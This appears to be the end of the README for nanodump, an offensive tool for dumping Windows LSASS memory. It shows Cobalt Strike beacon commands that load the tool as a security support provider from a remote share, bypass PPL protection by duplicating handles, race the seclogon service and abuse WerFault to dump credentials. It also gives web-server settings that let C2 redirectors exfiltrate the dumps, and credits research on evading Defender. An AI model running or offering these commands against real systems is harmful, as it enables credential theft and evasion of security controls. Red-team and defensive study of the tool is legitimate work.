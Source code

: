 Load nanodump in LSASS as an SSP remotely:
```
beacon> load_ssp \\10.10.10.10\openShare\nanodump_ssp.x64.dll
```

Dump LSASS bypassing PPL, duplicating the handle that csrss.exe has on LSASS:
```
beacon> nanodump_ppl --dup --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon to open a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --malseclogon-race
```

Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```

<h2 id="redirectors">14. HTTPS redirectors</h2>

If you are using an HTTPS redirector (as you should), you might run into issues when downloading the dump filessly due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [Abusing leaked handles to dump LSASS memory](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html) and [Racing for LSASS dumps](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-3.html)
- [xpn](https://twitter.com/_xpn_) for [Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)
- [Matteo Malvica](https://twitter.com/matteomalvica) for [Evading WinDefender ATP credential-theft: a hit after a hit-and-miss start](https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/)
- [James Forshaw](https://twitter.com/tiraniddo) for [Windows Exploitation Tricks: Exploiting Arbitrary Object Directory Creation for Local Elevation of Privilege](https://googleprojectzero.blogspot.com/2018/08/windows-exploitation-tricks-exploiting.html)
- [itm4n](https://twitter.com/itm4n) for the original PPL userland exploit implementation, [PPLDump](https://github.com/itm4n/PPLdump).
- [Asaf Gilboa](https://mobile.twitter.com/asaf_gilboa) for [Lsass Memory Dumps are Stealthier than Ever Before - Part 2](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before-part-2)
